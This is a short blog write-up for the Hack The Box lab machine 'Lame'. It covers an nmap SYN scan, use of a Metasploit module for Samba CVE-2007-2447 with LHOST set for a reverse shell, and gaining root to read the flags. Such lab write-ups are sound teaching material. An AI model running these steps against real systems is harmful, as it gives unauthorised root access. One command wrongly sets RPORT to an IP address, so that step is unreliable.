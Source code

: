 ```yaml
---
title: "Lame Write-Up"
date: 2025-08-06T12:35:45-05:00
draft: false
author: Jarpiano   
tags:
    - WriteUp
image: /images/lame-banner.png
description:
toc:
center: true
---
```

# Lame (Easy) Box

Lame is a retired easy machine from HTB focusing on exploiting a basic vulnerability from the Samba service.

## Initial Foothold & Escalation

Let's do a quick NMAP scan to see some open ports. An initial scan of `nmap 10.129.236.188` doesn't bring us anything. Let's try a more stealthy approach:

```bash
sudo nmap <IP> -sS -Pn --disable-arp
```

This gives us the following output.

<img src="/images/lame-image1.png" width="900" alt="Preview Image" />
<br>
<br>

If we a version scan, we see that the box has Samba version 3.x - 4.x and the ftp version is 2.3.4. Let's see if Samba has any vulnerabilities first. A quick google search shows use the `CVE-2007-2447` vulnerability. On Metasploit, if we search this up, we get the following exploit.

<img src="/images/lame-image2.png" width="900" alt="Preview Image" />
<br>
<br>

If we show options, we may get the following options:
- CHOST
- CPORT
- RHOST
- RPORT
- LHOST
- LPORT

We don't really need `CHOST` or `CPORT` so we can ignore them or both set them to nothing using `set CHOST ""` and `set CPORT ""`. Let's set them appropriately:

```bash
set RPORT <TARGET-IP>
```

```bash
set LHOST <MY-IP
```

We can leave the ports alone if none of them are taken up.

If we run exploit we should get the following message after the `Started TCP Handler`: ` Command shell session 1 opened`.

If we do `whoami`, we see that we are root. We can find the `user.txt` file in the `makis` directory and the `root.txt` file in the `root` folder.

**Fin.**

